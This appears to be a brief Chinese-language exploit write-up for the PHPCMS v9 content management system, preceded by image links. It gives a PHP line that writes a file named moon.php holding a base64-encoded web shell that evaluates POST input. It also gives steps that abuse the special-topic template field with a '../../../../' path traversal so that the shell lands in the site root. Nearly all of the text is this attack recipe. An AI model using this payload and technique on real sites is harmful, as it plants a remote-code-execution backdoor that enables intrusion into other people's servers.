



 

http://phpcmsv9.com/index.php?m=admin&c=index&a=login&pc_hash=

```
<?php file_put_contents('moon.php',base64_decode('PD9waHAgQGV2YWwoJF9QT1NUW21vb25dKTs/Pg==')); ?>
```

创建第一个专题



创建第二个专题



在创建专题扩展那里的模版index改成第一次设置专题../../../../html/special/moon/index



 提交 自动在网站跟目标下生成moon.php
